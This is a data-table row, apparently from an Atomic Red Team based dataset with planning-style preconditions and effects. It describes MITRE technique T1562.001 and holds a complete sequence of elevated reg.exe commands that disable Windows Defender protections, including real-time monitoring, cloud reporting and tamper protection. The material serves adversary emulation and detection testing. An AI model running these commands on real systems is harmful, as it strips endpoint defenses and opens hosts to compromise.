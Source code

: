 | 1f6743da-6ecc-4a93-b03f-dc357e4b313f | Tamper with Windows Defender Registry - Reg.exe | \['T1562.001'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Impair Defenses: Disable or Modify Tools'\] | Disable Windows Defender by tampering with windows defender registry using the utility "reg.exe"<br> | {'executor': 'Elevated Command Prompt Executor', 'command': 'reg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableBehaviorMonitoring" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableIntrusionPreventionSystem" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableIOAVProtection" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableOnAccessProtection" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableRoutinelyTakingAction" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableScanOnRealtimeEnable" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableScriptScanning" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Reporting" /v "DisableEnhancedNotifications" /t REG_DWORD /d "1" /f >NUL 2>nul \nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\SpyNet" /v "DisableBlockAtFirstSeen" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\SpyNet" /v "SpynetReporting" /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\MpEngine" /v "MpEnablePus" /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows Defender Security Center\\App and Browser protection" /v "DisallowExploitProtectionOverride" /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\SOFTWARE\\Microsoft\\Windows Defender\\Features" /v "TamperProtection"  /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\software\\microsoft\\windows defender\\spynet" /v "SubmitSamplesConsent" /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\Software\\Microsoft\\Windows Defender" /v "PUAProtection" /t REG_DWORD /d "0" /f >NUL 2>nul\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(windows_defender_disabled ?target - host)'\] |
